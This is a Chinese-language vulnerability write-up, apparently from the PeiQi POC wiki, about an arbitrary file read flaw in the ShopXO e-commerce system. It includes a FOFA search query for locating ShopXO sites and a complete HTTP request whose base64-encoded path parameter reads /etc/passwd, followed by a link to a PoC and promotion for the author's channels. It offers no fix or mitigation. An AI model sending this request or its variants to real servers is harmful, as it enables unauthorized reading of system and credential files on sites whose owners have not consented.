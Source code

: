 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/69cDWCDoVXRhehqaHPgYog)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**ShopXO 是一套开源的企业级开源电子商务系统。ShopXO 存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息**

**二:  漏洞影响🐇**

**ShopXO**

**三:  漏洞复现🐋**

```
app="ShopXO企业级B2C电商系统提供商"
```

**商城主页如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7htH9AibquAMvoqJYD5h1KbUuK0JicIxw5icNZKpOKOVJZrpUEun44USqI9VA1j4icV7Amse1aVs7O2Q/640?wx_fmt=png)

**发送漏洞请求包**

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

**其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7htH9AibquAMvoqJYD5h1Kb1mNQyhQhA2IIo8TmKMGb5ogibEK6RPTbtbXCDgzOr1dKicgLtKYqkaSg/640?wx_fmt=png)

 ****四:  Goby & POC🦉****

```
https://github.com/PeiQi0
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7htH9AibquAMvoqJYD5h1KbNKa3mtwcib8NmjBt8NlaWOoUiaiahrvDTGGsMmntQoy11s1ibibGhjoIDpg/640?wx_fmt=png)

 ****五:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**